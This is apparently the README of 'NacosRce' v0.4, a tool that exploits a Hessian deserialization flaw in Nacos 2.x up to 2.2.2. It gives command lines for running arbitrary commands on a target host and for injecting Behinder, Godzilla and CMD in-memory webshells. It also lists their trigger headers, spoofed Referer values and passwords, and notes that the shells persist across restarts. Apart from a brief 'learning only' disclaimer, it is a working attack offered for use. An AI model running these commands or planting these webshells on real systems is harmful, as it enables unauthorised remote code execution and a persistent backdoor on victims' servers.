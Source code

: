 ## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 执行无回显命令（不推荐，因为每次重启nacos都会自动执行一次）
   <br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&哥斯拉&CMD内存马（推荐，重启后自动注入内存马）
   <br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是windows的：
   <br />java -jar NacosRce.jar ip:port memshell windows

<br />内存马说明：
<br />1. 冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />2. 哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />3. CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.4版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、注入冰蝎/CMD内存马
<br />4、内存马对多版本进行了兼容
<br />5、修复windows的bug
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活

项目地址：https://github.com/c0olw/NacosRce
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
